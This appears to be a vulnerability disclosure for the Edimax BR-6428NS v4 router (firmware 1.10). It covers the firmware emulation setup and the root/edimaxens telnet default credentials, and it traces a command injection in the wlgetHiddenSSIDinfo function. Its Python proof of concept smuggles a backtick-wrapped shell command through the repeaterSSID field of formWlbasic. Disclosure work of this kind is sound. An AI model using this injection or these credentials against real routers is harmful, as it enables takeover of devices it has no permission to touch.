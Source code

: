 # Command Injection

Execute commands directly on the router via HTTP POST requests.

## Device Information

**Device**: Edimax Wireless Router BR-6428NS-v4

**Firmware Version**: BR-6428NS_v4_1.10

**Firmware Download Link**: https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4

![image-20241012150947135](./images/image-20241012150947135.png)

**Emulation Environment**: ubuntu-18.04.6-desktop-amd64 + [FirmAE](https://github.com/pr0v3rbs/FirmAE) + python-3.6.9

**Emulation Command**:

```shell
sudo ./run.sh -r Edimax ~/Desktop/BR-6428NS_v4_1.10.zip
```

![image-20241012151406971](./images/image-20241012151406971.png)

**Router Homepage**:

![image-20241012153525694](./images/image-20241012153525694.png)

**Telnet**:

Username and password: root/edimaxens

![image-20241012153704459](./images/image-20241012153704459.png)

**Vulnerability Location**: In the squashfs-root system of the firmware package, specifically within the /bin/webs ELF file’s wlgetHiddenSSIDinfo function, which is triggered by the formWlbasic function.

## Cause of the Vulnerability

The wlgetHiddenSSIDinfo function accepts parameters that are unvalidated and controlled by HTTP Post requests, allowing system commands to be directly executed using backticks **`**.

![image-20241012170043109](./images/image-20241012170043109.png)

The function is then called by the formWlbasic function.

Command injection logic is entered with chan=19.

![image-20241012170317086](./images/image-20241012170317086.png)

## PoC

```python
import requests

command = "touch /var/test1"

url = "http://192.168.2.1/goform/formWlbasic"
data = {
    "chan":19,
    "repeaterSSID":f"`{command}`"
}

r = requests.post(url, data=data)
#print(r.text)
```

**Execution Result**:

![image-20241012171224564](./images/image-20241012171224564.png)